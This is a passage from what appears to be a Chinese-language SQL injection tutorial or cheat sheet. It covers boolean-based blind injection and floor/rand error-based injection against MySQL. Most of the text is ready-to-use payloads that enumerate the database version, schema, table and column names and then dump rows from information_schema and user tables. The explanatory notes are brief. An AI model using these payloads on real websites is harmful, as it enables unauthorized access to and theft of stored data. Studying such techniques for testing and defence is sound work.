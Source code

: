 #### 2.  基于布尔的盲注

```
id=1' and length(database()) -- -
id=1' and substr(database(), 1, 1) -- -
id=1' and ascii(substr(database(), 0, 1)) -- -
id=1' and ascii(substr(database(), 0, 1))>N -- -
id=1' and ascii(substr(database(), 0, 1))=N -- -
id=1' and ascii(substr(database(), 0, 1))<N -- -
```

原理同时间盲注，就看正常输出还是页面异常。



## 0x06 报错注入

注意：由于报错信息有时会有长度限制，所以最好使用`limit 0,1`这样的语句逐个查询，在第2种报错注入updatexml中会提及一下怎么一次全爆破，后面都只说明如何逐个查询。

#### 1. floor报错注入

报错注入形式上是两个嵌套的查询，即select...(select...)，里面的那个select被称为子查询，他的执行顺序也是先执行子查询，然后再执行外面的select，双注入主要涉及函数：

- rand()随机函数，返回0~1之间的某个值。
- floor(a)取整函数，返回小于等于a，且值最接近a的一个整数。
- count()聚合函数也称作计数函数，返回查询对象的总数。
- group by clause分组语句，按照查询结果分组。
- floor(rand(0)\*2)是定性的011011，并不是真随机，而是伪随机，这句会引起报错，从而配合其它语句输出报错信息来达到泄露。
- ()x 是对括号内容的命名，把括号里面的命名为x。
- 另外需要注意的是最后面的一个`from information_schema.tables`是固定的，不管什么操作都不用变，也可以换成其他数据库和表，但都不影响。

下述中0x7e是波浪线，这里用来分隔输出，看起来方便点。

```
# 获取数据库信息
id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, version(),0x7e,database(),0x7e,user(),0x7e) limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -

# 获取一个库名
id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, schema_name, 0x7e) from information_schema.schemata limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -

# 获取一个表名
id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, table_name,0x7e) from information_schema.tables where table_schema='[库名]' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -

# 获取一个列名（字段）
id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, column_name, 0x7e) from information_schema.columns where table_name='[表名]' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -

# 获取一行数据
id=-1' union select 1,2,3 from (select count(*),concat((select concat(0x7e, [字段1], 0x7e, [字段2], 0x7e) from [库名].[表名] limit 0,1), floor(rand(0)*2))x from information_schema.tables group by x)a -- -
```
